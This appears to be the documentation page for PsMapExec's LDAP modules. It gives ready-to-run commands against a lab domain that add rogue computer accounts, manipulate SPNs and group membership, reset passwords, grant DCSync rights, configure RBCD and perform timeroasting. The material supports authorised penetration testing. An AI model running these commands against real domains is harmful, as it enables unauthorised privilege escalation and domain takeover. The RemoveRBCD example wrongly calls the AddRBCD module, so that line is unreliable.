 # LDAP / LDAPS 

The following modules below are all exclusive to the LDAP or LDAPS method within PsMapExec.

# Example Usage

    PsMapExec LDAP -Targets DC01.security.local -Module "<ModuleName>"

# Machine Account Quota (MAQ)

Gets the domain Machine Account Quota value.

    PsMapExec ldap -Targets DC01 -Username Arbiter -Password "Password123!"  -Module MAQ

# AddComputer

Adds a new computer account to the domain

    PsMapExec ldap -Targets DC01 -Username Arbiter -Password "Password123!"  -Module addcomputer

# AddSPN

Adds a new random SPN to the target account

    PsMapExec ldap -Targets DC01 -Username Arbiter -Password "Password123!" -Module AddSPN -TargetDN "CN=Moe,CN=Users,DC=SECURITY,DC=LOCAL"

# RemoveSPN

Removes ALL SPNs from the target account

    PsMapExec ldap -Targets DC01 -Username Arbiter -Password "Password123!" -Module RemoveSPN -TargetDN "CN=Moe,CN=Users,DC=SECURITY,DC=LOCAL"

# AddToGroup

Adds a specified object to a group

    PsMapExec ldap -Targets DC01 -Username Arbiter -Password "Password123!" -Module AddToGroup -GroupDN "CN=Spicy_Admins,CN=Users,DC=SECURITY,DC=LOCAL" -TargetDN "CN=Moe,CN=Users,DC=SECURITY,DC=LOCAL"

# RemoveFromGroup

Removes a specified object from a group

    PsMapExec ldap -Targets DC01 -Username Arbiter -Password "Password123!" -Module RemoveFromGroup -GroupDN "CN=Spicy_Admins,CN=Users,DC=SECURITY,DC=LOCAL" -TargetDN "CN=Moe,CN=Users,DC=SECURITY,DC=LOCAL"

# ToggleAccount

Enables / Disabled the specified user or computer account

    PsMapExec ldap -Targets DC01 -Username Arbiter -Password "Password123!" -Module ToggleAccount -TargetDN "CN=Moe,CN=Users,DC=SECURITY,DC=LOCAL"

# ResetPassword

Resets the password of the account to a random value

    PsMapExec ldap -Targets DC01 -Username Arbiter -Password "Password123!" -Module ResetPassword -TargetDN "CN=Moe,CN=Users,DC=SECURITY,DC=LOCAL"

# AddComputer

Adds a new computer account "Evil_*" to the domain with a random value password

    PsMapExec ldap -Targets DC01 -Username Arbiter -Password "Password123!" -Module AddComputer

# RemoveComputer

Removes the specified computer account from the domain

    PsMapExec ldap -Targets DC01 -Username Arbiter -Password "Password123!" -Module RemoveComputer

# Elevate

Elevates the specified account to perform DcSync within the domain

    PsMapExec ldap -Targets DC01 -Username Arbiter -Password "Password123!" -Module Elevate -TargetDN "CN=Moe,CN=Users,DC=SECURITY,DC=LOCAL"

# AddRBCD

Grant a trustee (-SID S-1-5-21-55... ) ms-DS-Allowed-To-Act-On-Behalf-Of-Other-Identity to the specified account

    PsMapExec ldap -Targets DC01 -Username Arbiter -Password "Password123!" -Module AddRBCD -TargetDN "CN=MSSQL01,CN=Computers,DC=SECURITY,DC=LOCAL" -SID "S-1-5-21-557848230-2785663121-4227600060-1105"

# RemoveRBCD

Clears the ms-DS-Allowed-To-Act-On-Behalf-Of-Other-Identity attribute the for target

    PsMapExec ldap -Targets DC01 -Username Arbiter -Password "Password123!" -Module AddRBCD -TargetDN "CN=MSSQL01,CN=Computers,DC=SECURITY,DC=LOCAL" -SID "S-1-5-21-557848230-2785663121-4227600060-1105"

# Timeroast

Performs authenticated timeroasting.

    PsMapExec ldap -Targets DC01 -Username Arbiter -Password "Password123!" -Module timeroast -ShowOutput
